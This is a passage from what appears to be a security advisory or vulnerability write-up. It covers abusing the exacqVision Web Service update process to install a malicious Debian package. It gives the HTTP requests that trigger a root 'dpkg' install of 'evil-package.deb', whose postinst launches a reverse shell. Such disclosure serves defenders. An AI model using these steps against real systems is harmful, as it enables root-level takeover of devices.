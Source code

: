```
GET /service.web?auth=b5a5323fc67148a084f6b0bb5f4de83a&action=downloadupdatestatus&version=99.99.99.9999 HTTP/1.1
Host: 10.0.0.22
...
Connection: close
Referer: http://10.0.0.22/service.web?response=html&auth=b5a5323fc67148a084f6b0bb5f4de83a
```

The response returns details regarding whether the download of the "update" package file is complete by comparing the `current_file_size` value to the `total_file_size` value of `818` identified in the first request of the "Check For Updates" process. Once the `current_file_size` and the `total_file_size` values are the same, the update file download is complete and the final request will be made. 

```
HTTP/1.1 200 OK
Date: Tue, 26 May 2020 19:22:35 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 80
Connection: close
Content-Type: application/json

{"status": 2, "success": true, "current_file_size": 818, "total_file_size": 818}
```

The final (and fourth, in this case) request is a `POST` request with the form data `auth=b5a5323fc67148a084f6b0bb5f4de83a&action=update&version=99.99.99.9999`. This request triggers the installation/execution of `evil-package.deb` on the underlying operating system. The application issues a shell command on the underlying system similar to `dpkg --install evil-package.deb` as the `root` user/with `root` permissions.

```
POST /service.web HTTP/1.1
Host: 10.0.0.22
...
Content-Length: 73
Origin: http://10.0.0.22
Connection: close
Referer: http://10.0.0.22/service.web?response=html&auth=b5a5323fc67148a084f6b0bb5f4de83a

auth=b5a5323fc67148a084f6b0bb5f4de83a&action=update&version=99.99.99.9999
```

As a result, the `evil-package.deb` package file is installed/executed and the commands within the `postinst` file are run with `root` permissions. The result is that the exacqVision Web Service services are started/restarted, and `/tmp/shell_reverse_tcp` is executed on the remote system. The output below shows the connection received from remote target system, that the package installation commands/`postinst` commands were executed with `root` privileges, and that the `evil-package` version `99.99.99.9999` is installed on the system.  

*Note: The version included in the DEBIAN/control file does not need to match the version specfied in the attacker's evFileInfo.txt.*

